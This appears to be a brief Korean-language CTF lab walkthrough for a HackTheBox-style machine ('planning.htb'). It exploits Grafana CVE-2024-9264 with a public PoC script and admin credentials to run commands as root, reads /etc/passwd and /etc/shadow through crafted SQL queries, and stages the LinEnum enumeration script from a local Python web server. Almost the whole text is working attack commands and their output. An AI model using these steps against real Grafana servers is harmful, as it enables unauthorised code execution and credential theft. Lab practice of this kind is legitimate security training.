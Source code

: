 apt remove ddgr

# 검색

ddgr grafana 11 cve

# grafana 11.0.0 cve poc 구글링

https://github.com/nollium/CVE-2024-9264

# pyton 가상화 실행

python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt

# 취약점 실행

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "ls -la /" http://grafana.planning.htb

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "find / -name user | 2>/dev/null" http://grafana.planning.htb
/usr/bin/umount
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "id" http://grafana.planning.htb
uid=0(root) gid=0(root) groups=0(root)

# kali

wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O linenum.sh

# kali 파이썬 내장 모듈인 http.server를 이용해서 현재 디렉토리를 기준으로 웹 서버를 8080 포트에서 실행하여 linenum.sh 파일을 다운로드할 수 있도록 합니다.

# 파이썬 서버가 실행된 폴더에 해당 파일이 저장됩니다.

python3 -m http.server 8000

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/etc/passwd')" http://grafana.planning.htb
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/etc/shadow')" http://grafana.planning.htb
